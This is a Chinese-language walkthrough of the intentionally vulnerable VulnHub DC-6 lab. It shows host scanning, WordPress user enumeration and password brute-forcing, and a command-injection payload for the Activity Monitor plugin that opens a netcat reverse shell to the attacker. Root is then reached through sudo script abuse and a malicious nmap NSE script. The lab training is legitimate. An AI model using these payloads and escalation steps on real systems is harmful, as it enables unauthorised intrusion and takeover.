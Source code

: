 # DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/2.png)

一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/3.jpg)

按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/4.png)

发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/5.png)

跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/6.png)

成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/7.png)

www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/8.png)

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/9.png)

可以，直接给了我 graham 账号密码,登上去,然后继续查看

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/10.png)

看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/11.png)

巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/12.png)

切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/13.png)

看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC6/14.png)

提权成功,感谢靶机作者 @DCUA7
